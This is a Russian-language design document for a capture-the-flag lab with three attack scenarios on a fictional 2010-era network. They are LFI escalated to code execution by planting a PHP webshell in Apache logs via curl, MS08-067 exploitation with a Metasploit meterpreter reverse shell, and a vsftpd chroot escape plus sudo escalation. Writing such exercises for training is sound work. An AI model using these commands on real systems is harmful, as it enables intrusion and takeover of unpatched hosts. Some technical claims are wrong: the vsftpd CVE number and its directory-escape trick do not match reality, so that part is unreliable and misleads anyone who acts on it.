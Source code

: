 
### Общая ИТ инфраструктура для всех сценариев

**Описание хостов:**
*   **Router/GW:** `gateway.ctf2010.local`
    *   Debian Linux 5.0 (Lenny) или CentOS 5
    *   iptables, выполняет роль NAT и простого файрвола.
    *   Имеет два интерфейса во внутренних сетях.
*   **Web-Srv:** `webserver.ctf2010.local`
    *   Ubuntu Server 10.04 LTS / Debian 6 (Squeeze)
    *   Веб-сервер: Apache 2.2 + PHP 5.3.x, maybe mod_ssl.
    *   Возможно, запущен какой-то самописный сервис на C/Python.
*   **Client:** `client-pc.ctf2010.local`
    *   Windows XP SP3 / Windows 7
    *   Старая версия браузера (Firefox 3.6, IE8).
    *   Может быть установлен какой-то клиентский софт (FTP-клиент, Telnet).
*   **Internal-Server:** `internal.ctf2010.local`
    *   CentOS 5 / FreeBSD 8
    *   Запущены внутренние сервисы: FTP-сервер (vsftpd/proftpd), Samba, maybe SSH на нестандартном порту.
    *   Здесь хранятся флаги для более сложных заданий.

---

### Вариант 1: Атака на веб-сервер (LFI -> RCE)

**Цель:** Получить shell на машине `webserver.ctf2010.local` и найти файл `flag.txt` в домашней директории пользователя `www-data`.

**Инфраструктура:**
*   **Хост:** `webserver.ctf2010.local` (Linux)
*   **Сервис:** Apache 2.2 + PHP 5.3.х
*   **Веб-приложение:** Простой сайт на PHP с навигацией вида `index.php?page=about.html`.

**Уязвимость:**
*   **Local File Inclusion (LFI):** Скрипт `index.php` использует параметр `page` для включения контента без должной санитализации.
    *   Исходный код: `<?php include($_GET['page']); ?>`
*   **Уязвимая конфигурация PHP:** `register_globals = On` (очень распространено в то время) и `allow_url_include = Off` (по умолчанию).

**Шаги атаки:**
1.  **Разведка:** Сканирование портов (nmap) показывает открытый 80-й порт (Apache).
2.  **Обнаружение уязвимости:**
    *   Проверка: `http://webserver.ctf2010.local/index.php?page=../../../../etc/passwd`
    *   Если в ответе видно содержимое `/etc/passwd` — уязвимость подтверждена.
3.  **Эскалация до RCE (Remote Code Execution):**
    *   **Метод 1: Через логи Apache.** Атакующий заставляет сервер записать PHP-код в логи (например, в `access.log`) через User-Agent или параметр в URL, а затем включает этот лог-файл через LFI.
        *   `curl -A "<?php system(\$_GET['cmd']); ?>" http://webserver.ctf2010.local/`
        *   `http://webserver.ctf2010.local/index.php?page=../../../../var/log/apache2/access.log&cmd=id`
    *   **Метод 2: Через `/proc/self/environ`.** Если атакующий может контролировать переменные окружения (например, через User-Agent), он может записать код в переменную, а затем включить файл `/proc/self/environ` через LFI.
4.  **Выполнение команд:** После успешной атаки атакующий получает возможность выполнять команды: `&cmd=whoami`, `&cmd=cat /home/www-data/flag.txt`.

**Задание для игрока:**
"Обнаружьте уязвимость в веб-приложении на основном сайте. Используйте её для получения доступа к командной оболочке сервера и найдите флаг."

---

### Вариант 2: Атака на Windows-клиент (SMB + Buffer Overflow)

**Цель:** Получить контроль над машиной `client-pc.ctf2010.local` и найти файл `flag.txt` на рабочем столе пользователя.

**Инфраструктура:**
*   **Хост:** `client-pc.ctf2010.local` (Windows XP SP2/SP3)
*   **Сервисы:** Сетевой сосед (SMB), возможно, запущен уязвимый софт (мессенджер, FTP-клиент).
*   **Важно:** На машине не установлены критические обновления (MS08-067).

**Уязвимость:**
*   **MS08-067 (CVE-2008-4250):** Критическая уязвимость в сервисе Server Service, позволяющая выполнить удалённый код без аутентификации. Это была "бомба" того периода.

**Шаги атаки:**
1.  **Разведка:** Сканирование сети (nmap) показывает, что на `10.0.1.20` (Windows-клиент) открыт порт 445 (SMB).
2.  **Подтверждение уязвимости:** Использование сканера уязвимостей (например, `nessus` или скрипта для `metasploit`) для проверки на наличие MS08-067.
3.  **Эксплуатация:**
    *   Запуск `metasploit` (актуальная на тот момент версия 3.x).
    *   Выбор эксплоита: `use exploit/windows/smb/ms08_067_netapi`
    *   Установка параметров: `set RHOST 10.0.1.20`, `set PAYLOAD windows/meterpreter/reverse_tcp`
    *   Запуск: `exploit`
4.  **Получение доступа:** В случае успеха `metasploit` откроет интерактивную сессию `meterpreter` на атакованной машине.
5.  **Поиск флага:** В сессии `meterpreter` выполнить команды для навигации по файловой системе и чтения флага: `shell` -> `dir C:\Documents and Settings\User\Desktop\flag.txt /s`.

**Задание для игрока:**
"В корпоративной сети находится компьютер сотрудника. Получите на нём контроль, воспользовавшись известной уязвимостью операционной системы, и найдите конфиденциальный файл."

---

### Вариант 3: Атака на внутренний сервис (FTP + Privilege Escalation)

Более сложная двухэтапная атака, требующая сканирования и эскалации привилегий.

**Цель:** Получить root-доступ на машине `internal.ctf2010.local` и прочитать файл `/root/flag.txt`.

**Инфраструктура:**
*   **Хост:** `internal.ctf2010.local` (Linux, например, CentOS 5)
*   **Сервисы:** vsftpd 2.0.5 (уязвимая версия), SSH на порту 2222.

**Уязвимости:**
1.  **CVE-2007-5966:** Уязвимость в chroot-механизме vsftpd 2.0.5, позволяющая получить доступ к корневой файловой системе (выход из chroot'а).
2.  **Небезопасная конфигурация sudo:** Пользователь `ftpadmin` может выполнять от root любую команду без пароля (`NOPASSWD: ALL` в `/etc/sudoers`).

**Шаги атаки:**
1.  **Разведка:** Сканирование портов машины `internal.ctf2010.local` показывает открытые порты: 21 (FTP), 2222 (SSH).
2.  **Атака на FTP:**
    *   Установка соединения: `ftp 10.0.2.30`
    *   Логин: anonymous (разрешён) или подбор простых учётных данных (admin:admin).
    *   **Эксплуатация уязвимости vsftpd:** Используется техника `CWD .../.../.../.../.../.../.../.../.../.../` для выхода из chroot-окружения. Это позволяет увидеть настоящую корневую файловую систему.
    *   Атакующий может скачать критически важные файлы: `/etc/passwd`, `/etc/shadow` (если есть права), `/etc/sudoers`.
3.  **Анализ и эскалация привилегий:**
    *   В файле `/etc/passwd` обнаруживается пользователь `ftpadmin`.
    *   Скачав и проанализировав `/etc/sudoers`, атакующий видит строку: `ftpadmin ALL=(ALL) NOPASSWD: ALL`
    *   Это означает, что войдя как `ftpadmin`, можно стать root через `sudo su`.
4.  **Доступ по SSH:**
    *   Атакующий пытается подобрать/перебрать пароль для пользователя `ftpadmin` через SSH на порт 2222 (используя скачанный `shadow` или простые пароли).
    *   После входа: `sudo su -`, получает root-доступ.
    *   `cat /root/flag.txt`

**Задание для игрока:**
"Обойдите ограничения FTP-сервера, чтобы получить доступ к системным файлам. Проанализируйте их, чтобы найти способ получить полный контроль над системой."

---
